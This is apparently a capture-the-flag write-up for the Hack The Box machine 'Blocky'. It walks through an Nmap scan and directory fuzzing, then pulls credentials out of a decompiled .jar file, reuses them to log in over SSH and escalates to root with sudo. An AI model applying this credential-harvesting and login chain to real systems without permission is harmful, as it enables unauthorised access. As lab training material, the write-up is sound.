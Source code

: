 # HTB - Blocky

#### Ip: 10.10.10.37
#### Name: Blocky
#### Difficulty: Easy

----------------------------------------------------------------------

Blocky.png

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Blocky]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.37 -sC -sV   
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-21 13:38 CDT
Nmap scan report for 10.10.10.37
Host is up (0.063s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d62b99b4d5e753ce2bfcb5d79d79fba2 (RSA)
|   256 5d7f389570c9beac67a01e86e7978403 (ECDSA)
|_  256 09d5c204951a90ef87562597df837067 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://blocky.htb
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.65 seconds
```

Looks like the Ip is forwarding to blocky.htb, so lets add that to our `/etc/hosts` file.

Heading over to the website we find a WordPress site that is under construction:

site.png

Looking a bit closer at the site we find a potential username:

notch.png

Running Feroxbuster for directory fuzzing we find a `/plugins` page:

ferox.png

Which contains 2 .jar files we can download:

files.png

Lets inpect these files using jd-gui:

```text
┌──(ryan㉿kali)-[~/HTB/Blocky]
└─$ jd-gui BlockyCore.jar
```

creds.png

Nice, looks like we've discovered some credentials. These appear to be database credentials, but lets see if either root or the user notch have any password resuse going on for SSH.

### Exploitation

No lock for the root user:

```text
┌──(ryan㉿kali)-[~/HTB/Blocky]
└─$ ssh root@10.10.10.37    
The authenticity of host '10.10.10.37 (10.10.10.37)' can't be established.
ED25519 key fingerprint is SHA256:ZspC3hwRDEmd09Mn/ZlgKwCv8I8KDhl9Rt2Us0fZ0/8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.37' (ED25519) to the list of known hosts.
root@10.10.10.37's password: 
Permission denied, please try again.
```

But the password did work for the notch user:

```text
┌──(ryan㉿kali)-[~/HTB/Blocky]
└─$ ssh notch@10.10.10.37
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Wed Sep 20 17:14:31 2023 from 10.10.14.4
notch@Blocky:~$ whoami && hostname
notch
Blocky
```
From here we can grab the user.txt flag:

user_flag.png

### Privilege Escalation

Running `sudo -l` to see what commands notch can run with elevated permissions, we find they can run absolutely anything with sudo:

```text
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

Lets run `sudo /bin/bash` to elevate our permissions in the shell:

```text
notch@Blocky:~$ sudo /bin/bash
root@Blocky:~# whoami
root
root@Blocky:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Now we can grab the final flag:

root_flag.png

Thanks for following along!

-Ryan

-----------------------------------------------------
